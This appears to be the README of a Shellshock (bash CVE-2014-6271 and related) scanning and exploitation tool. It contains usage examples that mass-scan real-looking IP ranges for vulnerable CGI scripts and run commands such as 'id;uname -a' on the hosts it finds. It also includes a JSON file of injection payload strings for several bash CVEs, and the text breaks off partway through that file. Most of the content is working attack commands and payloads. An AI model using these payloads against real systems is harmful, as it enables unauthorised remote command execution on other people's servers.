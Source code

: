 ### Command e.g:
```
python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --range '194.206.187.X,194.206.187.XXX' --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt' --all

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln 'curl -v -k -i "_TARGET_"'

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln './exploit -t "_TARGET_"'

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln './exploit -t "_TARGET_"' --debug
```
### Prints:
#### START
![Logo](assets/prints/print01.png)
#### PROCESS
![Logo](assets/prints/print02.png)
#### SPECIAL COMMAND ( --exec-vuln 'echo ```"_TARGET_"```' )
![Logo](assets/prints/print03.png)
#### COMMAND ( --debug )
![Logo](assets/prints/print04.png)
--debug
### Source file ( Exploits )
>pwd: assets/exploits.json
```json
{
    "DEFAULT":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271": 
        "() { :; }; echo _CHECKER_; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271-2":
        "() { :;}; echo '_CHECKER_' 'BASH_FUNC_x()=() { :;}; echo _CHECKER_' bash -c 'echo _COMMAND_'",
    "CVE-2014-6271-3":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_';echo _CHECKER_;",
    "CVE-2014-7169":
        "() { (a)=>\\' /bin/bash -c 'echo _CHECKER_'; cat echo",
    "CVE-2014-7186":
        "/bin/bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo '_CHECKER_, redir_stack'",
    "CVE-2014-7187":
        "(for x in {1..200} ; do echo \"for x$x in ; do :\"; done; for x in {1..200} ; do echo done ; done) | /bin/bash || echo '_CHECKER_, word_lineno'",
    "CVE-2014-6278":
```